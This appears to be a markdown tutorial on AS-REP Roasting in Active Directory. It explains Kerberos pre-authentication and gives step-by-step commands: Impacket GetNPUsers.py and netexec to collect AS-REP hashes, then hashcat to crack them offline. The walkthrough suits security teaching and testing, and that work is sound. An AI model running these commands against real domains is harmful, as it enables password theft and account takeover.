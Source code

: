 AS-REP Roasting is an attack against **Kerberos authentication** in Active Directory (AD) that targets accounts with the property **“Do not require pre-authentication”**.  
It allows an attacker to request a **TGT (Ticket Granting Ticket)** for a user and obtain it **without knowing the user’s password**, then perform **offline password cracking**.

---

## Key Concepts

|Term|Explanation|
|---|---|
|**Kerberos AS-REP**|When a client requests a TGT from the Key Distribution Center (KDC) for a user without pre-authentication, the KDC returns an **encrypted blob** using the user’s long-term key.|
|**Pre-authentication**|By default, AD requires users to provide proof (encrypted timestamp) before issuing a TGT. Accounts with **“Do not require Kerberos pre-authentication”** bypass this check.|
|**Offline attack**|The TGT contains an **encrypted hash of the user’s password**. This can be cracked offline using tools like **Hashcat** or **John the Ripper**.|
## Attack Process

#### Step 1: Identify Vulnerable Accounts

- Use LDAP enumeration tools (e.g., `ldapsearch`, `BloodHound`) to find users with the **DONT_REQUIRE_PREAUTH** flag set.

Example using `GetNPUsers.py` from Impacket:
```bash
GetNPUsers.py <domain>/<user> -usersfile users.txt -dc-ip <dc-ip> -format hashcat
```

- This enumerates all users that do **not require pre-authentication** and outputs their AS-REP hashes.


#### Step 2: Request AS-REP TGTs

- For each identified user, request a TGT from the KDC:
```bash
GetNPUsers.py -request -dc-ip <dc-ip> <domain>/<user>
```

- The KDC returns a **TGT encrypted with the user’s password**.

You can also use the **netexec** command:
```bash
nxc ldap <dc_ip> -u <users.txt> -p '' --asreproast <output.txt>
```


#### Step 3: Extract and Save Hash

- The TGT is typically saved in **Kerberos ticket format** (`.kirbi`) or printed as a hash compatible with Hashcat.

Example output for Hashcat:
```bash
$krb5asrep$23$user@DOMAIN:encrypted_hash_here
```

#### Step 4: Crack the Password Offline

- Use password-cracking tools to recover the user’s password from the AS-REP hash:
```bash
hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt
```


